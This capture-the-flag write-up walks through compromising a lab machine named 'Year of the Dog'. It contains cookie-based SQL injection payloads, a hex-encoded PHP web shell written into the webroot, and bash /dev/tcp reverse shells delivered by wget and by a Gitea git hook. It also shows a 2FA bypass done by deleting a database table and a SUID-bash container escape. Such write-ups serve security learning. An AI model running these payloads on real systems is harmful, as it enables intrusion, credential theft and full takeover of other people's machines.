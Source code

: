 ## ENUMERATION
Nmap scan: `nmap -p- -vv <MACHINE-IP> -oG initial-scan` 
```
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```
SSH on port 22 and webserver on port 80 as usual.

## WEB SERVER

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20120630.png)

I used gobuster for any hidden directories but got nothing.<br>
Using burp , we see there is a cookie being stored. We could do some injection with the cookie.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20121211.png)

This confirms that SQLi is the way to go. UNION SELECT works.<br>
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,database() -- -` gives databse `webapp`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20122020.png)

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='webapp' -- -` gives table `queue`

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema='webapp' and table_name='queue'-- -` gives 2 columns : `userID` and `queueNum`

Seems like we can even write to webroot using :` INTO OUTFILE '/var/www/html/`<br>
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,'testing' INTO OUTFILE '/var/www/html/test.txt'-- -` gives:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20124149.png)

Using Command : `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,LOAD_FILE('/etc/passwd') -- -` we got 1 user:<br>
`dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash`
 
 As RCE detection is triggered by <? we'll have to hex encode our payload and then pass it through SQL unhex function.<br>
 `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,UNHEX('3C3F7068702073797374656D28244745545B27636D64275D293B203F3E') INTO OUTFILE '/var/www/html/cmd.php' -- -`<br>
 Now if it works:

 ![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20142410.png)

It works!<br>
Now to move in , save this : `bash -i >& /dev/tcp/<IP Address>/<PORT> 0>&1` to a file and transfer it to the webserver using `<MACHINE-IP>/cmd.php?cmd=wget <YOUR-IP>:<PORT>/<file>`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143013.png)

You should be in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143345.png)

We are www-data. There is the user flag in dylan's home directory but we don't have the permission to read it. We can read the work_analysis file though.
In there we find Dylan's SSH password.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20143630.png)
![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144149.png)

Using `ifconfig`, there seems to be a docker address. We don't seem to be in a container so probably that will come later.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155929.png)

Using LinPeas , we find `/app/gitea/gitea web` process running under dylan. Also that localhost is available on port 3000.<br>
Let's use SSH port forwarding and check out that port<br>
`ssh dylan@<MACHINE-IP> -L 3000:localhost:3000`

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144717.png)

Signing in as dylan we get a 2 factor authentication.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20144927.png)

Going back to dylan, checking `gitea` we find a db: `gitea.db` which is an SQLite3 database.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20150729.png)

Let's delete the `two_factor table` from `gitea.db`:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151132.png)

And we're in:

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20151257.png)

Now searching for any Gitea version 1.13.0 exploits , I found  [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) exploit.<br>
In the Test-repo, we go to `settings` > `Git Hooks` > `Post Recieve Hook`.<br> In this hook , we can write a shell script that will get executed after getting a new commit.<br>

Add `bash -i >& /dev/tcp/<YOUR-IP>/<CHOSEN-PORT> 0>&1 ` to Post Recieve Hook and update it.<br>
Start a netcat listener, then on your local machine :
```
git clone http://localhost:3000/Dylan/Test-repo.git
cd Test-repo
echo "something" >> README.md
git add README.md
git commit -m 'RCE'
git push
```

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20153122.png)

## PRIVILEGE ESCALATION > ROOT
Now , we're in the container confirmed by the `.dockerenv` file in `/` and we gotta break out. We can `su` rightaway.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20154615.png)

Check the `/data/` directory as the files are usually mount to host.<br>

This is the case here as well as the files in `/data` are identical to the `/gitea` directory in Dylan's shell.<br>
Now just transfer the bash file located in `/bin/` to `/data/` and add the permissions.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20155558.png)

Back at Dylan's: run `./bash -p` and you got root.

![](https://github.com/ishXD/CTF-writeups/blob/main/Year%20of%20the%20Dog/images/Screenshot%202023-07-13%20160038.png)






 
 
 
 




